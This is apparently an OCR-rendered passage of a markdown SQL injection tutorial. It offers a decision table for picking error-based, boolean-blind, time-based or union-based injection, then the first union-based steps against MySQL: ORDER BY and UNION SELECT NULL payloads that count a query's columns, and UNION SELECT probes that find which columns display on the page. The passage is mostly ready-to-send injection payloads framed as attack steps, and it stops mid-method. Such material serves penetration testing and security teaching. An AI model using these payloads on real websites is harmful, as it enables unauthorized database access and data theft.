 ## 4) Decision Tree: Choose Your Attack Method

Based on what you observe, select the appropriate technique:

| Observation | Attack Method | Go to Section |
|------------|---------------|---------------|
| SQL error messages visible in response | Error-based, then Union | §5, §6 |
| Page content changes between true/false inputs | Boolean-based blind | §7 |
| No visible changes at all | Time-based blind | §8 |
| Page displays table rows or lists data | Union-based (prioritize this) | §5 |

[3][1]

***

## 5) Union-Based SQL Injection (5 Steps)

**Assumptions for examples below:**
- Single-quote context
- MySQL database
- Adjust functions for other databases (see §11)

### Move 1: Determine Column Count

**Method A - ORDER BY technique:**
```sql
' ORDER BY 1 --+    → send, check response
' ORDER BY 2 --+    → send, check response  
' ORDER BY 3 --+    → send, check response
' ORDER BY 4 --+    → send, check response
```

Increment until you get an error. The last successful number = column count.

**Method B - UNION NULL technique:**
```sql
' UNION SELECT NULL --+
' UNION SELECT NULL,NULL --+
' UNION SELECT NULL,NULL,NULL --+
' UNION SELECT NULL,NULL,NULL,NULL --+
```

Continue until the response looks normal (no error). The number of NULLs = column count.

**Expected result:**
If ORDER BY 3 succeeds but ORDER BY 4 fails → **3 columns**.[4][5]

### Move 2: Identify Printable Columns

Test each column position to see which displays on the page:
```sql
' UNION SELECT 'A',NULL,NULL --+
' UNION SELECT NULL,'A',NULL --+
' UNION SELECT NULL,NULL,'A' --+
```
